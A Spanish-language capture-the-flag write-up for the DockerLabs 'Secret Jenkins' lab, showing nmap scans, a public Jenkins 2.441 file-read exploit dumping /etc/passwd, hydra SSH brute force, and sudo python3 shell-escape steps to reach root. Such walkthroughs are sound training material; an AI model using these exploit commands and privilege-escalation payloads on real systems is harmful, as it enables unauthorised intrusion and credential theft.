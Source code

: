 #Writeups #Easy #DockerLabs

![dockerLabs.png](assets/dockerLabs.png)

Hacemos un escaneo general:

```bash
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:35 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
22/tcp   open  ssh
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 1.19 seconds
```

Encontramos dos servicios activos, un ssh y un http, vamos a hacer un escaneo mas profundo:

```bash
❯ sudo nmap -p22,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-04 10:38 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000030s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 94:fb:28:59:7f:ae:02:c0:56:46:07:33:8c:ac:52:85 (ECDSA)
|_  256 43:07:50:30:bb:28:b0:73:9b:7c:0c:4e:3f:c9:bf:02 (ED25519)
8080/tcp open  http    Jetty 10.0.18
| http-robots.txt: 1 disallowed entry 
|_/
|_http-title: Site doesnt have a title (text/html;charset=utf-8).
|_http-server-header: Jetty(10.0.18)
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.12 seconds
```

Vemos la web y es un login de jenkins:

![secrejenkingsloginweb.png](assets/secrejenkingsloginweb.png)

Probé insertar credenciales por defecto y buscar directorios ocultos por gobuster pero no encontré nada así que vamos a hacer un whatweb a ver que información podemos sacar de las versiones de programas que este usando la web:

```bash
❯ whatweb 172.17.0.2:8080
http://172.17.0.2:8080 [403 Forbidden] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], Meta-Refresh-Redirect[/login?from=%2F], Script, UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session]

http://172.17.0.2:8080/login?from=%2F [200 OK] Cookies[JSESSIONID.bf331c09], Country[RESERVED][ZZ], HTML5, HTTPServer[Jetty(10.0.18)], HttpOnly[JSESSIONID.bf331c09], IP[172.17.0.2], Jenkins[2.441], Jetty[10.0.18], PasswordField[j_password], Title[Sign in [Jenkins]], UncommonHeaders[x-content-type-options,x-hudson,x-jenkins,x-jenkins-session], X-Frame-Options[sameorigin]
```

Obtenemos la versión de Jetty que también obtuvimos en nmap y la versión de Jenkins 2.441, vamos a buscar si existen exploits para esta versión:

![secretjenkinscve.png](assets/secretjenkinscve.png)

Vemos un Local File Inclusion así que lo descargamos y lo ejecutamos con python a ver si nos da algún resultado:

```bash
❯ python3 51993.py
usage: 51993.py [-h] -u URL [-p PATH]
51993.py: error: the following arguments are required: -u/--url
❯ python3 51993.py -u http://172.17.0.2:8080 -p /etc/passwd
systemd-network:x:998:998:systemd Network Management:/:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
jenkins:x:1000:1000::/var/jenkins_home:/bin/bash
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
systemd-timesync:x:997:997:systemd Time Synchronization:/:/usr/sbin/nologin
messagebus:x:100:102::/nonexistent:/usr/sbin/nologin
root:x:0:0:root:/root:/bin/bash
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
_apt:x:42:65534::/nonexistent:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
sshd:x:101:65534::/run/sshd:/usr/sbin/nologin
bobby:x:1001:1001::/home/bobby:/bin/bash
games:x:5:60:games:/usr/games:/usr/sbin/nologin
pinguinito:x:1002:1002::/home/pinguinito:/bin/bash
```

La vulnerabilidad funciona, y leyendo el etc/passwd podemos saber los usuarios del sistema, leí mas archivos por si encontraba alguna contraseña para entrar por el login pero no encontré nada así que decidí usar fuerza bruta con hydra para el ssh :

```bash
❯ touch users.txt
❯ echo bobby >> users.txt
❯ echo pinguinito >> users.txt
❯ hydra -L users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-06-04 12:30:24
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688798 login tries (l:2/p:14344399), ~1793050 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: bobby   password: chocolate
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Encontramos las credenciales **bobby:chocolate**.
Vamos a entrar al sssh:

```bash
❯ ssh bobby@172.17.02
The authenticity of host '172.17.0.2 (172.17.0.2)' cant be established.
ED25519 key fingerprint is SHA256:g5HpEMVrzx0F/fmegIvdqdciTROIw/2YvKHJAiaZ12U.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
bobby@172.17.0.2s password: 
Linux 05d715d4b44b 6.5.0-13parrot1-amd64 #1 SMP PREEMPT_DYNAMIC Debian 6.5.13-1parrot1 (2023-12-19) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
bobby@05d715d4b44b:~$ sudo -l
Matching Defaults entries for bobby on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User bobby may run the following commands on 05d715d4b44b:
    (pinguinito) NOPASSWD: /usr/bin/python3
bobby@05d715d4b44b:~$ 

```

Entramos como usuario bobby y haciendo una enumeración de permisos vemos que podemos ejecutar un comando de python3 como pinguinito, así que vamos a ello para hacer el movimiento lateral a pinguinito:

```bash
bobby@05d715d4b44b:~$ sudo -u pinguinito python3 -c 'import os; os.system("/bin/sh")'
$ whoami
pinguinito
$ 
```

El comando de python lo podéis encontrar en la web GTFOBINS, ahora vamos a enumerar los permisos de pinguinito:

```bash
$ sudo -l
Matching Defaults entries for pinguinito on 05d715d4b44b:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User pinguinito may run the following commands on 05d715d4b44b:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
$ ls -la /opt/script.py
-r-xr--r-- 1 pinguinito root 272 May 11 08:22 /opt/script.py
$ 
```

Vemos que tenemos permisos de sudo para el script.py pero no tenemos permisos de escritura a pesar de ser propietarios del archivo, vamos a ver si podemos cambiar los permisos y escribir:

```bash
$ chmod +w /opt/script.py
$ echo import os; os.system("/bin/sh") > /opt/script.py
/bin/sh: 5: Syntax error: word unexpected (expecting ")")
$ echo 'import os; os.system("/bin/sh")' > /opt/script.py
$ cat /opt/script.py
import os; os.system("/bin/sh")
$ 
```

Ahora ejecutamos el script con sudo y vemos que obtenemos root:

![rootSecretJenkins.png](assets/rootSecretJenkins.png)

